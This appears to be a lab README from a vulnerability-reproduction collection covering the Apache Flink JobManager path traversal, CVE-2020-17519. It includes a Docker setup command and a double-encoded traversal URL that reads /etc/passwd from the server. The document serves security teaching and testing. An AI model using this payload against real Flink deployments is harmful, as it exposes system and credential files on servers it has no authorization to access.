 # Apache Flink `jobmanager/logs` Path Traversal (CVE-2020-17519)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

A vulnerability introduced in Apache Flink 1.11.0 (and present in versions 1.11.1 and 1.11.2) allows attackers to read arbitrary files from the local filesystem through the JobManager's REST interface. This path traversal vulnerability exists in the log viewing functionality.

References:

- <https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801>
- <https://nvd.nist.gov/vuln/detail/CVE-2020-17519>

## Environment Setup

Execute the following command to start an Apache Flink jobmanager 1.11.2:

```
docker compose up -d
```

After the Apache Flink service is started, visit `http://your-ip:8081` to access the management interface.

## Vulnerability Reproduction

Access the following URL to read the contents of `/etc/passwd` file from the target server:

```
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](1.png)
